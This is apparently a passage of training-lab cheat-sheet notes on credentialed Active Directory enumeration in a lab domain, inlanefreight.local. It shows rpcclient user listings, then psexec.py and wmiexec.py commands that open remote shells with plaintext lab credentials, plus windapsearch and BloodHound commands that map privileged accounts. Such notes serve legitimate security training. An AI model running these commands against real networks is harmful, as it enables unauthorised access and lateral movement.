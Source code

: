 ```bash
rpcclient $> enumdomusers

user:[administrator] rid:[0x1f4]
user:[guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[lab_adm] rid:[0x3e9]
user:[htb-student] rid:[0x457]
user:[avazquez] rid:[0x458]
user:[pfalcon] rid:[0x459]
user:[fanthony] rid:[0x45a]
user:[wdillard] rid:[0x45b]
user:[lbradford] rid:[0x45c]
user:[sgage] rid:[0x45d]
user:[asanchez] rid:[0x45e]
user:[dbranch] rid:[0x45f]
user:[ccruz] rid:[0x460]
user:[njohnson] rid:[0x461]
user:[mholliday] rid:[0x462]

<SNIP>  
```
## Using psexec.py - gives admin shell if creds have local admin access

```bash
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```
## Using wmiexec.py - Semi-interactive shell - Unprivileged

```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```
## Windapsearch - Domain Admins

```bash
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```
## Windapsearch - Privileged Users

```bash
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```
## bloodhound-python

```bash
sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all 
```
# Credentialed Enumeration - from Windows
## ActiveDirectory PowerShell Module
## Discover Modules
